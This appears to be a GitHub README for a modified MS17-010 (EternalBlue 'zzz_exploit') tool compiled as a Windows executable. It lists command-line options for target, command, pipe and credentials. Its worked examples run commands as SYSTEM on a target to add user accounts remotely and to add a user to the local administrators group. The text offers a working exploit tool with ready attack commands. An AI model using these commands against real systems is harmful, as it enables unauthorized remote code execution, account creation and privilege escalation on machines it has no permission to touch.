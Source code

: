 # ms17-010
This is a modified version of the Worawit Wang: GitHub zzz_exploit for MS17-010.<br>
It implements a few options such as username/password specification and an arbitrary command to be executed.

# Usage

Unzip the bundle and from the command line execute ms17-010-zzz.exe<br><br>
ms17-010-zzz.exe -h<br>
usage: ms17-010-zzz.exe [-h] -t TARGET -c COMMAND -P PIPE [-u USER]
                        [-p PASSWORD]
<br><br>
MS17-010 - zzz_explot modified and converted to binary https://github.com/irgoncalves/ms17-010<br>
<br>
optional arguments:<br>
  -h, --help            show this help message and exit<br>
  -t TARGET, --target TARGET<br>
                        Target for exploitation<br>
  -c COMMAND, --command COMMAND<br>
                        Command to be executed as a service<br>
  -P PIPE, --pipe PIPE  Pipe to connect (e.g. netlogon)<br>
  -u USER, --user USER  Username to authenticate in case no anomymous<br>
                        connection to a pipe is allowed<br>
  -p PASSWORD, --password PASSWORD<br>
                        Password for the user<br>
<br>
Example: ms17-010.exe -t 172.16.0.2 -c 'net user /add srvnewcon4 teste123'<br>
<br>

Example to add a user remotely specifinc a named pipe and a valid non-administrator user:
ms17-010-zzz.exe -t 10.128.1.208 -c "net user /add teste2 teste2123" -P netlogon -u svruser -p abc123

Example to locally escalate privilege for an existent user (all commands are executed by SYSTEM):
ms17-010-zzz.exe -t 127.0.0.1 -c "net localgroup administrators teste2 /add" -P netlogon -u teste2 -p teste2123

# Limitations
Currently supports only x64 platform (Tested running from Windows 10, 2K8)
